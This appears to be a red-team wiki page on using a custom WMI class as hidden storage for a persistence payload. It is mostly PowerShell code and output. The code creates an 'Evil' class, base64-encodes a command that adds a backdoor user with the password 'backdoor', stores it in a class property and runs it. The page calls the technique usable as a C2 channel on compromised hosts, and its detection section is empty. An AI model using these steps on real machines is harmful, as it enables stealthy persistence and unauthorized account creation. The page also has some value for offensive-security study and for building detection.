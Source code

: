 ```yaml
---
description: >-
  Exploring WMI as a data storage for persistence by leveraging WMI classes and
  their properties.
---
```


# WMI Data Storage

## Execution

Creating a new WMI class with a property `EvilProperty` that will later store the payload to be executed:

```csharp
$evilClass = New-Object management.managementclass('root\cimv2',$null,$null)
$evilClass.Name = "Evil"
$evilClass.Properties.Add('EvilProperty','Tis notin good sir')
$evilClass.Put()

Path          : \\.\root\cimv2:Evil
RelativePath  : Evil
Server        : .
NamespacePath : root\cimv2
ClassName     : Evil
IsClass       : True
IsInstance    : False
IsSingleton   : False
```

We can see the `Evil` class' properties:

```csharp
([wmiclass] 'Evil').Properties

Name       : EvilProperty
Value      : Tis notin good sir
Type       : String
IsLocal    : True
IsArray    : False
Origin     : Evil
Qualifiers : {CIMTYPE}
```

Checking WMI explorer shows the new `Evil` class has been created under the root\cimv2 namepace - note the `EvilProperty` can also be seen:

![WIM Explorer shows the Evil WIM class is in place with its malicious EvilProperty](../../.gitbook/assets/wmi-data-storage-newclass.png)

### Storing Payload

For storing the payload inside the EvilPropertty, let's create a powershell base64 encoded command to add a backdoor user with credentials `backdoor:backdoor`:

```csharp
$command = "cmd '/c net user add backdoor backdoor /add'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# $encodedCommand = YwBtAGQAIAAvAGMAIAAnAG4AZQB0ACAAdQBzAGUAcgAgAGIAYQBjAGsAZABvAG8AcgAgAGIAYQBjAGsAZABvAG8AcgAgAC8AYQBkAGQAJwA=
```

Update the `EvilProperty` attribute to now store the `$encodedCommand`:

```csharp
$evilClass.Properties.Add('EvilProperty', $encodedCommand)
```

Below is the same as above, just in screenshots:

![Checking the EvilProperty contains the payload](../../.gitbook/assets/wim-setting-payload.png)

### Real Execution

```csharp
powershell.exe -enc $evilClass.Properties['EvilProperty'].Value
```

Executing the payload stored in the property of a WMI class's property - note that the backdoor user has been successfully added:

![Payload from EvilProperty attribute executed successfully](../../.gitbook/assets/wmi-payload-executed.png)

If we commit the $evilClass with its .Put\(\) method, our payload will get stored permanently in the WMI Class. Note how a new "Evil" class' properties show the payload we have commited:

![New Evil instance already has the payload to create the backdoor](../../.gitbook/assets/wmi-payload-commited.png)

All of the above can be applied on a remote compromised host and used as a C2 channel - please refer to the [BHUSA2015](https://github.com/mattifestation/WMI_Backdoor) by Matt Graeber for more juicy details on this topic.

## Observations

